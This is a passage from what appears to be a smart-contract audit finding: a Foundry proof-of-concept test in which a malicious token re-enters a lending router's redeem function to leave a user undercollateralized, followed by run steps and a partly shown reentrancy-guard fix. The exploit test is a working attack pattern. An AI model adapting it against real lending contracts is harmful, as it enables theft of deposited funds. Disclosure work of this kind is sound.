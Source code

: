 ```solidity
    LToken public lToken;
    MaliciousToken public maliciousToken;
    address public alice = address(0x1);
    uint256 public constant SUPPLY_AMOUNT = 1000 ether;
    uint256 public constant REDEEM_AMOUNT = 400 ether;

    function setUp() public {
        lendStorage = new LendStorage();
        coreRouter = new VulnerableCoreRouter(address(lendStorage));
        maliciousToken = new MaliciousToken(address(coreRouter), address(0));
        lToken = new LToken(address(maliciousToken));
        lendStorage.addLToken(address(maliciousToken), address(lToken));

        // Mint and supply for Alice
        vm.startPrank(alice);
        maliciousToken.mint(alice, SUPPLY_AMOUNT);
        maliciousToken.approve(address(coreRouter), SUPPLY_AMOUNT);
        coreRouter.supply(SUPPLY_AMOUNT, address(maliciousToken));
        vm.stopPrank();
    }

    function testExploit() public {
        // Set attack mode
        vm.startPrank(alice);
        maliciousToken.attackMode = true;
        coreRouter.redeem(REDEEM_AMOUNT, payable(address(lToken)));
        vm.stopPrank();

        // Verify undercollateralized state
        uint256 finalCollateral = lendStorage.totalInvestment(alice, address(lToken));
        assertEq(finalCollateral, 200 ether, "Collateral should be 200 lDAI");
        // Debt remains 700 USDC, collateral now 200 lDAI * 0.7 = 140 USDC equiv.
    }
}
```

### Running the PoC
1. **Steps:**
   - Save the PoC as `ReentrancyExploitPoC.sol` in a Foundry project’s `test` directory.
   - Run: `forge test --match-path test/ReentrancyExploitPoC.sol -vvvv`.
   - The test verifies the exploit reduces collateral to 200 lDAI, leaving an undercollateralized position.


### Mitigation

Update the state before making external calls and add a reentrancy guard. Here’s the fixed version:

```solidity
function redeem(uint256 _amount, address payable _lToken) external nonReentrant returns (uint256) {
    address _token = lendStorage.lTokenToUnderlying(_lToken);
    require(_amount > 0, "Zero redeem amount");
    require(lendStorage.totalInvestment(msg.sender, _lToken) >= _amount, "Insufficient balance");

    (uint256 borrowed, uint256 collateral) =
        lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(_lToken), _amount, 0);
    require(collateral >= borrowed, "Insufficient liquidity");

    uint256 exchangeRateBefore = LTokenInterface(_lToken).exchangeRateStored();
    uint256 expectedUnderlying = (_amount * exchangeRateBefore) / 1e18;

    // Burn lTokens first
    require(LErc20Interface(_lToken).redeem(_amount) == 0, "Redeem failed");
```